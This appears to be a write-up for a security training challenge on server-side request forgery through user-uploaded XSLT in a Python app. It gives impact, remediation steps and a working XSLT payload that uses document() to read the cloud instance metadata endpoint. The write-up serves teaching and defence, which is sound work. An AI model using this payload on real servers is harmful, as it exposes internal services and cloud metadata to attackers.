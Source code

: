 # Challenge 24: XSLT Server-Side Request Forgery (SSRF)

## Vulnerability
The application allows users to upload XSLT files which are then processed server-side. XSLT processors can be abused to perform SSRF attacks using the `document()` function to fetch external resources.

## Location
`app.py` line 18: `transformer = xsltproc.compile_stylesheet(stylesheet_text=xslt_content.decode())`

## Impact
- Server-Side Request Forgery to internal services
- Information disclosure from internal network
- Potential XML External Entity (XXE) attacks
- File system access in some configurations

## Exploitation
Upload an XSLT file containing:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:variable name="ssrf" select="document('http://169.254.169.254/latest/meta-data/instance-id')"/>
    <result><xsl:copy-of select="$ssrf"/></result>
  </xsl:template>
</xsl:stylesheet>
```

## Remediation
1. Disable external entity resolution in the XSLT processor
2. Use a whitelist of allowed functions and disable `document()`
3. Run XSLT processing in a sandboxed environment
4. Validate and sanitize XSLT content before processing
